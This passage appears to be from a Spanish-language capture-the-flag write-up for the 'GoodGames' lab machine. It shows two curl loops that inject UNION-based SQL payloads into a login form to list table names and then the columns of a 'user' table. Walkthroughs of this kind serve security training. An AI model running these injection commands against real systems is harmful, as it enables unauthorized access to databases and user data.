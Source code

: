 Comando:

```bash
for i in $(seq 0 100); do echo "[+] Para el numero $i: $(curl -s -X POST http://10.10.11.130/login --data "email=test@test.com' union select 1,2,3,table_name from information_schema.tables where table_schema=\"main\" limit $i,1-- -&password=1234" | grep -i "welcome" | sed 's/^ *//' | cut -d '>' -f 2 | cut -d ' ' -f 2 | awk '{print $1}' FS='<')"; done
```

![Untitled](/assets/img/GoodGames/Untitled30.png)

Obteniendo la tabla `user`

Vamos a seguir la misma lógica que utilizamos en los laboratorios de [SQL](https://www.notion.so/SQL-Injections-c8f437aebd5243f1ae8c526c15106d59?pvs=21)

![Untitled](/assets/img/GoodGames/Untitled31.png)

Primero identificar la base da datos, luego enumerar la tablas, luego columnas y al final mostrar la data requerida.

Ya tenemos identificado la base de datos `main` y la tabla `user`

Continuando con la enumeración de columnas:

Comando:

```bash
for i in $(seq 0 100); do echo "[+] Para el numero $i: $(curl -s -X POST http://10.10.11.130/login --data "email=test@test.com' union select 1,2,3,column_name from information_schema.columns where table_schema=\"main\" and table_name=\"user\" limit $i,1-- -&password=1234" | grep -i "welcome" | sed 's/^ *//' | cut -d '>' -f 2 | cut -d ' ' -f 2 | awk '{print $1}' FS='<')"; done
```

Obteniendo:

![Untitled](/assets/img/GoodGames/Untitled32.png)

